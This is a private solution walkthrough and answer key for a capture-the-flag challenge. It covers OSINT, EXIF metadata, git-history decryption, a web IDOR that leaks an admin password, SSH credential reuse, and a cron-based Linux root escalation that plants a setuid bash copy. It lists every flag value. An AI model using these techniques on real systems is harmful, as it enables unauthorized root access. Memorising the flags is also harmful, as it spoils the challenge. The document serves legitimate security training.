








# The Forgotten Administrator — Solution Walkthrough (with screenshots)

> Private — never player-accessible, same as `solution-walkthrough.md`
> (the text-only version this supplements). Every step below was
> actually run against this project's own dev VM — the browser steps
> are real screenshots (not mockups), the command-line steps are real,
> unedited terminal output, including a genuine password-based SSH
> login and a genuine `admin` → `root` privilege escalation with no
> shortcuts taken. Contains every flag value, including the final
> root-level artifact's — don't hand this file or `walkthrough-images/`
> to players.

Total: 5 genuine flags, 800 points. 5 decoys (`FFLAG{...}`), 0 points
each, but genuinely findable — not bugs.

---

## Stage 1 — OSINT (Flag 1, 100 pts)

Served unauthenticated at `/materials/`. Start at the landing page:



`/materials/` lists the handover material:



`/materials/osint/profile.html` — John's old profile. The
red-bordered callout is loud on purpose:



That callout is the **decoy**: `FFLAG{old_profile_rev1_55c2}` — 0
points. Fast and satisfying to find, but wrong.

The real flag is on `/materials/osint/project-page.html`, woven into
an ordinary changelog line rather than boxed off — you have to read
it, not just scan for anything bold:



> v0.4 — handover notes added, see repo history. Tagged this build
> **SYN{osint_fingerprint_f0c73a91}** in case anyone needs to
> reference it later.

**Flag 1: `SYN{osint_fingerprint_f0c73a91}`**

---

## Stage 2 — Metadata (Flag 2, 100 pts)

Served at `/materials/metadata/*.png`. Two photos only.

| `handover_photo.png` | `scan_backup.png` |
|---|---|
|  |  |

Nothing suspicious to the eye in either — this stage is entirely in
the EXIF metadata.

```
$ exiftool handover_photo.png | grep -i comment
Comment : handover desk photo — SYN{exif_breadcrumb_8d12ff04}
```

**Flag 2: `SYN{exif_breadcrumb_8d12ff04}`**

The second photo is the **decoy** — its `Artist` field hands you a
password in plain sight, loud on purpose:

```
$ exiftool scan_backup.png | grep -iE "comment|artist"
Artist  : PASSWORD (use this to unlock the Comment field!): scanpass2017
Comment : 53594e43310ecf1e7d94ce9bf0553af19db4901859dc839a3e62813e44c55f6...
```

The `Comment` field is hex-encoded ciphertext. Decode it, then decrypt
with the password the `Artist` field just handed you:

```
$ python3 flagcrypto.py decrypt "scanpass2017" scan_backup.enc -
FFLAG{draft_scan_metadata_77b0}
```

Decoy, 0 points — easy and immediate, which is exactly the tell.

---

## Stage 3 — Git history + crypto (Flag 3, 150 pts — keep this value)

Served at `/materials/stage3-git-history.tar.gz`. Extract it and look
at the log:

```
$ git log --oneline
580967a Clean up stale backup files
f626ea2 Found the old 2018 backup again! Password is old-wifi-2018, decrypt old_backup_2018.enc
3768c24 Add encrypted handover backup + passphrase note
060f835 Initial commit
```

The working tree only has `README.md` — the top commit deleted
everything else. The newest deleted-file commit (`f626ea2`) is **the
decoy**, and it tells you exactly what to do, which is the giveaway:

```
$ git show HEAD~1:old_backup_2018.enc > old_backup_2018.enc
$ python3 flagcrypto.py decrypt "old-wifi-2018" old_backup_2018.enc -
FFLAG{rotated_out_jan_2019_e2a4}
```

Decoy, 0 points. The **real** flag is one commit further back, and the
commit message this time is plain, not loud:

```
$ git show -s --format=%B HEAD~2
Add encrypted handover backup + passphrase note

$ git show HEAD~2:notes.txt
Encrypting the handover backup with our standard passphrase for this rotation: BlueHarbor-99
(old 2018 wifi password was retired: old-wifi-2018 — don't reuse that one)
```

`notes.txt` even calls out which password is the decoy, if you read
closely. Use the real one:

```
$ git show HEAD~2:handover_backup.enc > handover_backup.enc
$ python3 flagcrypto.py decrypt "BlueHarbor-99" handover_backup.enc -
SYN{git_ghost_61ace7b2}
```

**Flag 3: `SYN{git_ghost_61ace7b2}`** — don't just submit this one,
**keep the decrypted value itself**. It's the password for the final
artifact, much later, and it is *not* any Linux account's password.

---

## Stage 4a — Web IDOR (no flag by itself — unlocks the pivot)

Log in with the starting credential every player is given:
`john` / `Summer2019!`.




`/records/mine` redirects to your own record, `/records/1`:


Nothing wrong with that by itself — but there's no ownership check on
this route. Just increment the id:



`/records/2` is the **admin's** record, and it discloses the admin web
password outright: `N3tOps-Diag#7`, with a one-line aside that it's
the same password on the server itself. That aside is the whole next
stage.

---

## Stage 4b — Credential reuse (Flag 4, 200 pts)

There's no second web vulnerability here — the password reuse *is*
the exploit. SSH in as `admin` with the password the IDOR just handed
you:

```
$ ssh admin@<vm-ip>
admin@<vm-ip>'s password: N3tOps-Diag#7
$ id
uid=1002(admin) gid=110(admin) groups=110(admin)
```

Confirmed live, and confirmed this isn't a blanket misconfiguration —
`john` gets bounced the same way every other account does:

```
$ ssh john@<vm-ip>
john@<vm-ip>: Permission denied (publickey).
```

Password auth is enabled for the `admin` account only
(`Match User admin` in `sshd_config.d`); every other account is
key-only. Once in as `admin`:

```
$ cat /home/admin/evidence/decrypt_notes.txt
Password notes from the last handover (clean these up...):
  original_flag_4.enc -> oldhandoff-rotate-2024

$ python3 /opt/tools/flagcrypto.py decrypt oldhandoff-rotate-2024 \
      /home/admin/flags/original_flag_4.enc -
SYN{admin_blindspot_9f4e2c18}
```

**Flag 4: `SYN{admin_blindspot_9f4e2c18}`**

**Decoy**, sitting right next to the real evidence, plaintext, no
decryption needed:

```
$ cat /home/admin/evidence/FOUND_A_FLAG.txt
Found this while cleaning up old tickets, looks like a flag:
FFLAG{ticket_closed_wontfix_19d7}
(context: TICKET-1182, admin account flagged by security review for credential reuse, status wontfix)
```

---

## Stage 5 — Linux privilege escalation

You're `admin`, no `sudo`. Look at what runs as root on a schedule:

```
$ ls -la /etc/cron.d/
-rw-r--r-- 1 root root  124 ... admin-tools-cleanup

$ cat /etc/cron.d/admin-tools-cleanup
* * * * * root bash /opt/admin-tools/cleanup.sh >> /var/log/admin-tools-cleanup.log 2>&1

$ ls -la /opt/admin-tools/cleanup.sh
-rw-rw-r-- 1 root admin 242 ... /opt/admin-tools/cleanup.sh
```

`root:admin`, mode `664` — group-writable, and `id` already showed
`admin` is in group `admin`. Append a payload and wait for the next
minute's tick:

```
$ echo 'cp /bin/bash /tmp/rootbash && chmod 4755 /tmp/rootbash' >> /opt/admin-tools/cleanup.sh
$ sleep 60
$ ls -la /tmp/rootbash
-rwsr-xr-x 1 root root 1446024 Oct 28 11:45 /tmp/rootbash

$ /tmp/rootbash -p -c 'id'
uid=1002(admin) gid=110(admin) euid=0(root) groups=110(admin)
```

Genuine root. Clean up `/tmp/rootbash` afterward (or
`vm/scripts/reset-privesc.sh` between teams/events).

---

## Final artifact (Flag 5, 250 pts — total 800)

As root:

```
$ python3 /opt/tools/flagcrypto.py decrypt "SYN{git_ghost_61ace7b2}" \
      /root/final_evidence.enc -
SYN{root_of_all_evidence_3b7d55a0}
```

**Flag 5: `SYN{root_of_all_evidence_3b7d55a0}`**

The password is **Flag 3's decrypted value** — not `BlueHarbor-99`
(that's Flag 3's own password, one layer up), and not any Linux
account password. Confirmed live that `/root` is unreadable to plain
`admin` before the privilege escalation above:

```
$ ls /root
ls: cannot open directory '/root': Permission denied
```

**Decoy, loud and positioned first** — `/root/root_note.txt` opens
with *"Finally got root, huh? Before you get excited:"* then hands you
a password for a different file in the very same sentence:

```
$ cat /root/root_note.txt
Finally got root, huh? Before you get excited:
- old_evidence.enc — this looks important, password is SnapshotKey-2023
  (turned out to be last year's deprecated snapshot, kept around for
  the audit trail)

$ python3 /opt/tools/flagcrypto.py decrypt "SnapshotKey-2023" \
      /root/old_evidence.enc -
FFLAG{old_root_snapshot_f02e}
```

Decoy, 0 points. The genuine artifact needs the cross-stage password
from Flag 3 instead — a password that isn't written down anywhere on
this box.

---

## Total

| Flag | Points |
|---|---|
| 1 — OSINT | 100 |
| 2 — Metadata | 100 |
| 3 — Git history | 150 |
| 4 — Credential reuse | 200 |
| 5 — Final artifact | 250 |
| **Total** | **800** |
